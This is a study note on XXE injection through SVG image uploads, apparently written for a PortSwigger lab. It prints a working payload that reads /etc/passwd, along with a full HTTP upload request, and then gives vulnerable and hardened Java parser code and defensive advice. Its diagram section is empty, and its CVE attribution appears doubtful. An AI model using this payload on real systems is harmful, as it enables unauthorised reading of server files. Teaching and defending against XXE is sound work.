

## XXE Injection via Image File Upload

### Understanding the Scenario

In this scenario, we are dealing with an application that allows users to upload SVG (Scalable Vector Graphics) files as avatars. SVG files are XML-based, making them susceptible to XXE attacks. The application uses the Batik library, which is a pure Java library for rendering, generating, and manipulating SVG graphics.

### Background Theory

SVG files are XML documents that describe two-dimensional graphics. They can contain elements such as `<circle>`, `<rect>`, and `<text>`. Since SVG files are XML-based, they can also include XML declarations and entity references, which can be exploited for XXE attacks.

### Step-by-Step Mechanics

#### Step 1: Identify the Vulnerability

The first step is to identify that the application accepts SVG files and processes them using the Batik library. This indicates that the application might be vulnerable to XXE attacks.

#### Step 2: Craft the Malicious SVG File

To exploit the vulnerability, we need to craft a malicious SVG file that includes an external entity reference. Here’s an example of a malicious SVG file:

```xml
<?xml version="1.0"?>
<!DOCTYPE svg [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<svg xmlns="http://www.w3.org/2000/svg">
  <text x="10" y="20">&xxe;</text>
</svg>
```

This SVG file includes an external entity reference (`&xxe;`) that points to the `/etc/passwd` file on the server. When the application processes this SVG file, it will attempt to resolve the external entity, potentially leaking sensitive information.

#### Step 3: Upload the Malicious SVG File

Next, we need to upload the malicious SVG file to the application. This can be done through the application's user interface or by directly sending the file via an HTTP request.

Here’s an example of an HTTP POST request to upload the SVG file:

```http
POST /upload-avatar HTTP/1.1
Host: example.com
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary7MA4YWxkTrZu0gW

------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="avatar"; filename="test.svg"
Content-Type: image/svg+xml

<?xml version="1.0"?>
<!DOCTYPE svg [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<svg xmlns="http://www.w3.org/2000/svg">
  <text x="10" y="20">&xxe;</text>
</svg>

------WebKitFormBoundary7MA4YWxkTrZu0gW--
```

#### Step 4: Analyze the Response

After uploading the malicious SVG file, we need to analyze the response to determine if the attack was successful. This can be done by examining the application's behavior or by intercepting the HTTP traffic using tools like Burp Suite.

### Mermaid Diagram: Attack Flow



### Real-World Example: CVE-2021-3185

CVE-2021-3185 is a recent example of an XXE vulnerability affecting the Apache Tomcat server. This vulnerability allowed attackers to inject malicious XML input that could be processed by the server, leading to unauthorized data access or denial of service.

### Pitfalls and Common Mistakes

Common mistakes that can lead to XXE vulnerabilities include:

- **Using default configurations**: Many XML parsers come with default configurations that enable external entity resolution.
- **Failing to validate input**: Not validating XML input for malicious content can leave the application vulnerable.
- **Poor error handling**: Inadequate error handling can leak sensitive information to attackers.

### How to Prevent / Defend Against XXE via Image Upload

To defend against XXE attacks via image uploads, follow these best practices:

- **Disable external entity resolution**: Configure XML parsers to disable external entity resolution.
- **Validate SVG input**: Use XML validation schemas to ensure input conforms to expected formats.
- **Use secure libraries**: Utilize libraries that have built-in protections against XXE attacks.
- **Monitor and log**: Implement logging and monitoring to detect and respond to suspicious activity.

### Secure Coding Fixes

Here’s an example of how to securely handle SVG uploads in a Java application:

#### Vulnerable Code

```java
// Vulnerable code
public void uploadAvatar(String svgContent) {
    // Parse SVG content
    DocumentBuilderFactory dbFactory = DocumentBuilderFactory.newInstance();
    DocumentBuilder dBuilder = dbFactory.newDocumentBuilder();
    Document doc = dBuilder.parse(new InputSource(new StringReader(svgContent)));
    // Process SVG content
}
```

#### Secure Code

```java
// Secure code
public void uploadAvatar(String svgContent) {
    // Parse SVG content securely
    DocumentBuilderFactory dbFactory = DocumentBuilderFactory.newInstance();
    dbFactory.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
    dbFactory.setXIncludeAware(false);
    dbFactory.setExpandEntityReferences(false);
    DocumentBuilder dBuilder = dbFactory.newDocumentBuilder();
    Document doc = dBuilder.parse(new InputSource(new StringReader(svgContent)));
    // Process SVG content
}
```

### Detection and Prevention

To detect and prevent XXE attacks, implement the following measures:

- **Static code analysis**: Use static code analysis tools to identify potential XXE vulnerabilities in your codebase.
- **Dynamic testing**: Perform dynamic testing using tools like Burp Suite to simulate XXE attacks and verify the application's response.
- **Configuration hardening**: Ensure that XML parsers are configured to disable external entity resolution.
- **Regular updates**: Keep your libraries and frameworks up to date to mitigate known vulnerabilities.

### Practice Labs

For hands-on practice with XXE injection, consider the following labs:

- **PortSwigger Web Security Academy**: Offers a comprehensive lab on XXE injection.
- **OWASP Juice Shop**: Provides a real-world application with various security vulnerabilities, including XXE.
- **DVWA (Damn Vulnerable Web Application)**: A deliberately insecure web application for practicing web hacking techniques.

By thoroughly understanding the mechanics of XXE injection and implementing robust defensive measures, you can significantly reduce the risk of such attacks in your applications.

---
<!-- nav -->
[[Web Security (PortSwigger)/08-XXE Injection/09-Lab 8 Exploiting XXE via image file upload/08-Understanding the Lab Environment|Understanding the Lab Environment]] | [[Web Security (PortSwigger)/08-XXE Injection/09-Lab 8 Exploiting XXE via image file upload/00-Overview|Overview]] | [[Web Security (PortSwigger)/08-XXE Injection/09-Lab 8 Exploiting XXE via image file upload/10-Conclusion|Conclusion]]
